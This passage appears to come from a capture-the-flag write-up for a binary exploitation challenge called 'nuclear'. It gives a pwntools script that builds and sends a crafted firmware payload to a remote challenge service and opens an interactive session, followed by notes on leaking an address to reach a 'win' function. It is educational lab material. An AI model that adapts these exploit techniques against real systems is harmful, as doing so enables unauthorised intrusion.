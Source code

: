 	context.arch = 'amd64'
	if args.REMOTE:
	    p = remote('6447.lol', 5002)
	elif args.HOST:
	    p = process('./nuclear')
	else:
	    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
	    p = gdb.debug('./nuclear',
	                  gdbscript='''
	                  b *execute_firmware + 62
	                  b *checksum + 227
	                  b *run+267
	                  c
	                  ''')
	# b * checksum + 202
	# execute_firmware + 62
	#
	# update
	header = b'FW12'
	data4224 = b'\x38'
	data4228 = b'\x33'
	flag2 = b'\x35'
	speed_up = b'\x36'
	len = 30
	
	middle = speed_up * len
	
	arg56 = p8(0) + b'\xfe'
	
	padding = b'\x00' * (512 - 4 - 6 - len - 1)
	
	payload = header + arg56 + data4224 + b'\x00' + data4228 + middle + flag2 + padding
	# 6000
	p.sendlineafter(b">> 6447 Nuclear Terminal Facility (Medical Purposes Only)", b"U")
	p.sendlineafter(b'>', payload)
	p.recvline()
	
	p.sendline(b'E')
	print(p.recvlines(11))
	
	p.interactive()
	```

## nuclear3 -`tedious`

* checksec everything is okie, try another way
* if goto win, we need to know win addr
* leak the addr by take advantage of `[+] material_loaded=%s\n` in run func
	* by gdb debugging, find the original addr saved is run func addr
	* calculate the `offset` from run to win : 0x222
	* change payload try not to do anything just rearch the run func, just print the original stuff which is runfunc addr
	* get the win func addr by substract 0x222
* case 02 overwrite the addr to winfunc addr
* payload
